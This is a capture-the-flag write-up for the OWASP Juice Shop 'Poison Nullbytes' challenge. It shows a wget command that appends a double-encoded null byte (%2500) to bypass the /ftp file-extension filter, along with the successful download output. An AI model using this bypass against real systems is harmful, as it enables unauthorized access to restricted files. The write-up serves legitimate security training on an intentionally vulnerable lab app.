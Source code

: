 ## Poison Nullbytes
**Category:** Improper Input Validation

**Difficulty:** 4/5

**Challenge Description:** Bypass a security control with a Poison Null Byte to access a file not meant for your eyes.

## Approach

### Download Restrictions with File Extensions

As already seen in [Starting Point](/startingpoint.md) we can only download files from the ftp endpoint, if they end with *.md* or *.pdf*. This literally screams for null byte poisoning.

### Adding a Null Byte to the URL

When using `wget`, you can simply add the null byte (URL encode %00 => %2500) in the URL.

```Shell
┌──(orb1t4l㉿elysium)-[~/OWASP/juice-shop/ftp-files]
└─$ wget http://192.168.0.1:3000/ftp/package.json.bak%2500.md
--2024-09-13 11:58:56--  http://192.168.0.1:3000/ftp/package.json.bak%2500.md
Connecting to 192.168.0.1:3000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4291 (4.2K) [application/octet-stream]
Saving to: ‘package.json.bak%00.md’

package.json.bak%00.md                               100%[=====================================================================================================================>]   4.19K  --.-KB/s    in 0s      

2024-09-13 11:58:56 (397 MB/s) - ‘package.json.bak%00.md’ saved [4291/4291]
```

The download restriction was successfully bypassed, and if we download the remaining files, we also solve some more challenges:

- **Easter Egg**
- **Forgotten Developer Backup**
- **Forgotten Sales Backup**
- **Misplaced Signature File**